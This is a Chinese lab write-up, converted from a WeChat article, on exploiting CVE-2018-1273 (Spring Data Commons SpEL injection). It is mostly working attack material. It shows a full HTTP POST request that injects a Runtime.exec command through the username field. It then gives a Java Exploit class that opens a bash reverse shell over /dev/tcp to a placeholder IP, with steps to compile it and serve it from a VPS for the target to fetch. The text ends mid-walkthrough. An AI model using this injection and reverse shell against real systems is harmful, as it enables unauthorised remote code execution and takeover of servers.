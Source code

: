 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/sDkM1scxGOrroYGs4e6JFQ)

> 本来是自己写在有道云笔记的，存粹是为了练习下 python 代码，也懒得打码了就是自己搭建的个漏测环境 (借用下 yicunyiye 师傅的服务器。现在服务器已经被删除)

### 0x01 cve-2018-1273

#### 1.1 漏洞检测

访问目标`/users?page=&size=5`

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0hiaiaeYSP3VlFPicjpdibK5qlETt5rWt1cr4Ah57UEexZ0mrncA21HqROA/640?wx_fmt=png)

抓包，修改 post 包

```
POST /users?page=&size=5 HTTP/1.1Host: 49.235.54.135:24814User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Content-Type: application/x-www-form-urlencodedContent-Length: 121Origin: http://49.235.54.135:24814Connection: closeReferer: http://49.235.54.135:24814//usersUpgrade-Insecure-Requests: 1username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch root/test")]=&password=&repeatedPassword=
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0uiaj8qrhHGpUbDRllVYyNUR2uUVYrk0EcBsPOjA2e22ZB92pLPN7Yyw/640?wx_fmt=png)

进入 docker 查看是否创建成功

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0a44N8jvZHw5foIR7D7ds7XD8PgUyrlh5DHDR5UDPZvjYgicJt8VeuYg/640?wx_fmt=png)

#### 1.2 反弹 shell

这里我们先编译一个 class 文件

Exploit.java

```
public class Exploit{    public Exploit(){        try{            Runtime.getRuntime().exec("/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/目标IP/2222 0>&1");        }catch(Exception e){            e.printStackTrace();        }    }    public static void main(String[] argv){        Exploit e = new Exploit();    }}
```

然后反编译下 java 文件

```
javac Exploit.java
```

然后再 vps 上传 class 文件再开启 web

```
python3 -m http.server 8080
```

然后再 bp 里面执行下载该 class 文件
